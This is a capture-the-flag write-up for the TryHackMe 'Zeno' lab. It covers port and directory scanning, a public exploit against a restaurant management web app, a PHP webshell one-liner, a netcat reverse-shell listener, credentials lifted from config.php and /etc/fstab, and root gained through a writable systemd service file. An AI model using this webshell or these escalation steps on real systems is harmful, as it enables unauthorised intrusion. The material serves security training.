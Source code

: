 # Zeno

Writeup for [Zeno](https://tryhackme.com/room/zeno) room at [TryHackMe](https://tryhackme.com/).
URL for this room is: https://tryhackme.com/room/zeno

Table of Contents
=================
* [Port Scan](#Port-scan)
* [Enumerating the Webserver](#Enumerating-the-Webserver)
* [Remote Code Execution](#Remote-Code-Execution)
* [Gaining Access](#Gaining-Access)
* [Root Access](#Root-Access)

# Port scan
Firstly, I have set an environment variable `IP` of the target machine's IP address.
Then I have conducted ***Nmap SYN*** scan against all of the TCP ports of the target machine with the command `sudo nmap -vv -sS -p- $IP` to see which ports are open. I had saved the following output to a file with `-oN` flag:

```
# Nmap 7.60 scan initiated Sat Oct 23 10:27:21 2021 as: nmap -vv -sS -p- -oN enum.txt 10.10.154.116
Nmap scan report for ip-10-10-154-116.eu-west-1.compute.internal (10.10.154.116)
Host is up, received arp-response (0.00042s latency).
Scanned at 2021-10-23 10:27:21 BST for 155s
Not shown: 65533 filtered ports
Reason: 65372 no-responses and 161 host-prohibiteds
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 64
12340/tcp open  unknown syn-ack ttl 64
MAC Address: 02:F5:20:98:22:CD (Unknown)

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Oct 23 10:29:57 2021 -- 1 IP address (1 host up) scanned in 155.84 seconds
```

The open ports are:
1. Port ***22*** running SSH service.
2. Port ***12340*** with an unknown service running.
Against those ports I have performed a more comprehensive scan with the command `nmap -vv -O -sV -sC -p 22,12340 $IP`. I was able to get the following information:

```
#Nmap 7.60 scan initiated Sat Oct 23 10:38:03 2021 as: nmap -vv -O -sV -sC -p 22,12340 -oN open_ports.txt 10.10.94.20
Nmap scan report for ip-10-10-154-116.eu-west-1.compute.internal (10.10.154.116)
Host is up, received arp-response (0.00043s latency).
Scanned at 2021-10-23 10:38:03 BST for 17s

PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 09:23:62:a2:18:62:83:69:04:40:62:32:97:ff:3c:cd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDakZyfnq0JzwuM1SD3YZ4zyizbtc9AOvhk2qCaTwJHEKyyqIjBaElNv4LpSdtV7y/C6vwUfPS34IO/mAmNtAFquBDjIuoKdw9TjjPrVBVjzFxD/9tDSe+cu6ELPHMyWOQFAYtg1CV1TQlm3p6WIID2IfYBffpfSz54wRhkTJd/+9wgYdOwfe+VRuzV8EgKq4D2cbUTjYjl0dv2f2Th8WtiRksEeaqI1fvPvk6RwyiLdV5mSD/h8HCTZgYVvrjPShW9XPE/wws82/wmVFtOPfY7WAMhtx5kiPB11H+tZSAV/xpEjXQQ9V3Pi6o4vZdUvYSbNuiN4HI4gAWnp/uqPsoR
|   256 33:66:35:36:b0:68:06:32:c1:8a:f6:01:bc:43:38:ce (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEMyTtxVAKcLy5u87ws+h8WY+GHWg8IZI4c11KX7bOSt85IgCxox7YzOCZbUA56QOlryozIFyhzcwOeCKWtzEsA=
|   256 14:98:e3:84:70:55:e6:60:0c:c2:09:77:f8:b7:a6:1c (EdDSA)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOKY0jLSRkYg0+fTDrwGOaGW442T5k1qBt7l8iAkcuCk
12340/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods:
|   Supported Methods: OPTIONS GET HEAD POST TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: We&#39;ve got some trouble | 404 - Resource not found
MAC Address: 02:F5:20:98:22:CD (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.13 (93%), Linux 3.8 (93%), Crestron XPanel control system (89%), HP P2000 G3 NAS device (86%), ASUS RT-N56U WAP (Linux 3.4) (86%), Linux 3.1 (86%), Linux 3.16 (86%), Linux 3.2 (86%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (86%), Linux 2.6.32 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.60%E=4%D=10/23%OT=22%CT=%CU=%PV=Y%DS=1%DC=D%G=N%M=02F520%TM=6173D80C%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=10B%TI=Z%TS=A)
OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)
WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
ECN(R=Y%DF=Y%TG=40%W=6903%O=M2301NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.030 days (since Sat Oct 23 09:55:45 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: All zeros

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 23 10:38:20 2021 -- 1 IP address (1 host up) scanned in 16.85 seconds
```
On port ***22*** an `OpenSSH 7.4` ssh service is running.
On port ***12340*** an `Apache httpd 2.4.6 (CentOS)` webeserver is running. This webserver also has `PHP/5.4.16` installed.

# Enumerating the Webserver

Connecting to the webserver from within a browser gives ***Resource not found*** error shown below.

![Resource not found](/Zeno/images/Resource_not_found.png)

I have then used `nikto -h $IP -p 12340` command to enumerate the webserver's directories. The output of this command was:

```
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.154.16
+ Target Hostname:    ip-10-10-154-16.eu-west-1.compute.internal
+ Target Port:        12340
+ Start Time:         2021-10-23 11:05:36 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.6 (CentOS) PHP/5.4.16
+ Server leaks inodes via ETags, header found with file /, fields: 0xf39 0x5c80c1adc76e0
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST, TRACE
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 6544 items checked: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2021-10-23 11:05:46 (GMT1) (10 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested``
```

For further enumeration of the webserver's directories I have used `gobuster dir -u http://$IP:12340 -w /usr/share/wordlists/dirb/big.txt` command, which resulted in the following:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.154.116:12340/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/10/23 14:20:25 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/rms (Status: 301)
===============================================================
2021/10/23 14:20:28 Finished
===============================================================
```

The scan lists three possible directories, from which only `/rms` one is accessible. Going to this webserver's directory via a browser gives a homepage of Pathfinder Hotel Restaurant Management System.

![Restaurant management system](/Zeno/images/Restaurant_management_system.png)

The Google search of `restaurant management system exploit` led to a Remote Code Execution exploit for this system, written in Python.

# Remote Code Execution

The downloaded exploit had formatting issues and a broken hardcoded proxy.
Fixing formatting and deleting code for proxy led to a successful upload of a webshell `<?php echo shell_exec($_GET["cmd"]); ?>` at http://$IP:12340/rms/images/reverse-shell.php URL, which shows blank page.

![Blank exploit page](/Zeno/images/Blank_exploit_page.png)

Although the uploaded webshell can accept commands with the syntax of http://$IP:12340/rms/images/reverse-shell.php?cmd=<argument>. For example, id argument prints this:

![System ID](/Zeno/images/System_ID.png)

At this point I am doing the following:

1. Exporting 1234 as a listening port - LPORT - and setting up a netcat listener with `nc -lnvp $LPORT`.
2. Passing a Python reverse shell found at [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) as an argument to the webshell URL.

The webpage is blank, but the listener captured a shell connection!


![Reverse shell](/Zeno/images/Reverse_shell.png)

# Gaining Access

Going to the server's home directory shows that the user `edward` is on the system.
Tried Hydra for cracking edward's SSH password but no luck there.
Getting back to /var/www/html/rms/connection folder and listing it's contets shows a config.php file. Inside this file there are credentials for the root user of a database.

![Database credentials](/Zeno/images/Database_credentials.png)

Although connecting to mysql database from the shell with these credentials resulted in an error.
***Update 10/29/2021***
I tried downloading LinPeas to the remote machine with curl, but it failed.
Then I looked up in /etc/fstab file and found credentials for user `edward` on zeno machine.
Connected to the remote machine with zeno password with user `edward` via SSH and found the user.txt file with the first flag.

# Root Access

There is a writable service file named zeno-monitoring.
Adding `ExecStart=/usr/bin/cp /root/root.txt /home/edward/rootflag.txt` command to the zeno-monitoring service file and rebooting the machine leads to having a readable rootflag.txt file with ***root flag*** in edward's home directory after a reconnection to a rebooted machine.
